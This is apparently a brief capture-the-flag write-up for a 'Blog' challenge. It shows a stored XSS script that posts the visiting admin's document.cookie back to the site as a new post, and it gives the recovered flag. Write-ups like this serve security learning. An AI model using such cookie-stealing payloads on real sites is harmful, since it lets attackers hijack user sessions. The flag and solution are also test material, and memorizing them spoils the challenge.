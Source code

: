 # Blog
We know that the admin visits the page every minute, so we give him a javascript:
```js
<script>
var req = new XMLHttpRequest();
req.open('post','/create',false);
req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
req.send('title=kvakk&body='+document.cookie);
</script>
```
And after a little while we get a new post with the flag: `EPT{I_never_sleep}`

I'm not sure if the cookie-thing worked, or if the admin-script is forgiving, but a flag is a flag.


